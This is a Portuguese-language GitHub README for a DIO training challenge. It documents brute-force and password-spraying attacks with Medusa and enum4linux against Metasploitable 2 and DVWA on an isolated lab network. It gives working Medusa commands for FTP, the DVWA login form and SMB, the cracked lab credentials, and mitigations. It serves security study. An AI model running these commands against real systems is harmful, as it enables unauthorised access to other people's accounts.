 # Medusa-Kali
Desafio DIO: Força Bruta com Kali Linux e Medusa
Esse modelo cobre:

* Introdução e contexto
* Estrutura do ambiente (com topologia)
* Ataques realizados: FTP, DVWA (formulário web), SMB
* Comandos utilizados
* Wordlists
* Resultados e capturas de tela (use a pasta `/images`)
* Mitigações sugeridas
* Conclusão

Este repositório documenta o projeto prático proposto no desafio da DIO, focando na simulação de ataques de força bruta em ambientes controlados utilizando as ferramentas Kali Linux, Medusa e máquinas vulneráveis como Metasploitable 2 e DVWA. O objetivo é compreender vulnerabilidades comuns, testar autenticações inseguras e propor boas práticas de segurança.

Objetivos

* Compreender o funcionamento de ataques de força bruta em diferentes serviços (FTP, Web, SMB).
* Configurar e utilizar o Medusa para automatizar tentativas de autenticação.
* Documentar processos técnicos de forma clara e estruturada.
* Propor medidas de mitigação realistas e eficazes.
* Utilizar o GitHub como portfólio técnico.

Ambiente de Testes

| Componente  | Descrição                                   |
| ----------- | ------------------------------------------- |
| Host        | Kali Linux (VM)                             |
| Alvo        | Metasploitable 2 + DVWA (VM)                |
| Rede        | Host-Only (VirtualBox)                      |
| Ferramentas | Medusa, curl, Hydra (opcional), rockyou.txt |

Topologia:


[ Kali Linux ] ←(Host-only)→ [ Metasploitable 2 + DVWA ]



Ataques Realizados

1.Ataque FTP com Medusa

Comando:

medusa -h 192.168.56.105 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp -t 50

Explicação:

* `-h`: IP do alvo
* `-u`: usuário
* `-P`: caminho da wordlist
* `-M`: módulo (FTP)
* '-t': ativa a opção multithread que torna mais ágil e rapida a execução do comando.

* obs: Editado a wordlist rockyou.txt para inserir no começo da lista a senha msfadmin apenas para agilizar os testes.
* vim /usr/share/wordlists/rockyou.txt

Resultado:
Credenciais descobertas: `msfadmin:msfadmin`
Acesso validado via `ftp`.

2. Força Bruta em Formulário Web (DVWA)

Pré-requisitos:
Configurar DVWA para **segurança: LOW

Comando com Medusa:

medusa -h 192.168.56.105 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m FORM \
  -e ns -T 5 -w 5 -b -f \
  -m DIR:/dvwa/login.php -m FORM:username=^USER^&password=^PASS^&Login=Login \
  -m DENY:"Login failed"

Explicação:

* Ataque no formulário de login da DVWA
* O parâmetro `DENY` identifica falhas com base na resposta da página

Resultado:
Login com senha válida foi identificado.

3.Password Spraying no SMB com Enum4Linux

Etapa 1: Enumeração de usuários


enum4linux -U 192.168.56.105

* Foi criado o arquivo smb_users.txt com os usuários reportados na enumeração: echo "msfadmin\nadmin\nuser" > users.txt


Etapa 2: Ataque SMB


medusa -h 192.168.56.105 -U smb_users.txt -P rockyou.txt -M smbnt


Resultado:
Acesso obtido via SMB com usuário válido



Wordlists

Utilizada a wordlist rockyou.txt, já inclusa no Kali Linux, que conta com vários parâmetros sem a necessidade real de criar uma lista ampla:


/usr/share/wordlists/rockyou.txt


Obs: execute `gunzip rockyou.txt.gz` se necessário.



Evidências (Capturas de Tela)

As capturas estão na pasta [`/images`](./images):

`ftp_attack.png`
`dvwa_attack.png`
`smb_enum.png`
`success_login.png`

Recomendações de Mitigação

* Desabilitar serviços desnecessários (ex: FTP, Telnet).
* Aplicar bloqueios temporários após múltiplas tentativas falhas (ex: fail2ban).
* Implementar autenticação multifator (MFA).
* Utilizar senhas fortes e complexas, evitando padrões comuns.
* Atualizar e monitorar logs de autenticação regularmente.

Conclusão

Este projeto demonstrou, em um ambiente controlado, como ferramentas de ataque como o Medusa podem ser utilizadas para testar a segurança de serviços vulneráveis. A experimentação com wordlists e diferentes protocolos mostrou a importância da boa gestão de senhas, mitigações ativas contra ataques automatizados e que treinamento de pessoal com uma politica de seginfo bem estruturada ainda assim pode não ser suficiente para conter incidentes, mas diminui a probabilidade de sucesso de um ataque.

Referências

* [Kali Linux Tools](https://tools.kali.org/)
* [Medusa GitHub](https://github.com/jmk-foofus/medusa)
* [DVWA GitHub](https://github.com/digininja/DVWA)
* [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
* [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)



Autor

Carlos Eduardo Silva Bertazzoli
Projeto desenvolvido para o desafio da [Digital Innovation One (DIO)](https://www.dio.me)

